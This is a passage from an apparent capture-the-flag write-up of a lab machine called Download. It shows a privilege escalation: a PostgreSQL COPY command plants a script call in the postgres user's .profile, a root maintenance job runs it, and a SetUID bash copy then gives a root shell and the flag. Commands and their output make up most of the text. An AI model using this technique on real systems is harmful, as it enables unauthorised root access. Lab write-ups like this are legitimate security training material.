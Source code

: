 I’ll use the `COPY` command to write to the `.bashrc`:

```
download=> COPY (select 'python3 /dev/shm/poc.py') TO '/var/lib/postgresql/.profile';
COPY 1

```

It works:

```
wesley@download:~$ cat /var/lib/postgresql/.profile
python3 /dev/shm/poc.py

```

#### Execution

The next time the bot cycles and tries to run, it calls `manage-db` as root, and then drops to UID 113 (postgres). But then it doesn’t call `psql`, rather just doing some `bash` calls and then returning to root:

```
2023/11/08 11:10:57 CMD: UID=0     PID=67907  | systemctl status postgresql
2023/11/08 11:10:57 CMD: UID=0     PID=67908  | /bin/bash -i ./manage-db
2023/11/08 11:10:57 CMD: UID=0     PID=67909  | /bin/bash -i ./manage-db
2023/11/08 11:10:57 CMD: UID=113   PID=67910  | -bash
2023/11/08 11:10:57 CMD: UID=113   PID=67911  |
2023/11/08 11:10:57 CMD: UID=113   PID=67912  | -bash
2023/11/08 11:10:57 CMD: UID=113   PID=67914  | -bash
2023/11/08 11:10:57 CMD: UID=113   PID=67915  |
2023/11/08 11:10:57 CMD: UID=0     PID=67916  | -bash
2023/11/08 11:11:02 CMD: UID=0     PID=67919  | /usr/bin/perl /usr/bin/psql

```

`/tmp/0xdf` is there with the SetUID/SetGID bits on ( `s` instead of `x` for owner and group):

```
wesley@download:~$ ls -l /tmp/0xdf
-rwsrwsrwx 1 root root 1183448 Nov  8 11:10 /tmp/0xdf

```

It provides a shell with root effective IDs and I can read the flag:

```
wesley@download:~$ /tmp/0xdf -p
0xdf-5.0# id
uid=1000(wesley) gid=1000(wesley) euid=0(root) egid=0(root) groups=0(root),1000(wesley)
0xdf-5.0# cat /root/root.txt
c4e14025************************

```

## Beyond Root
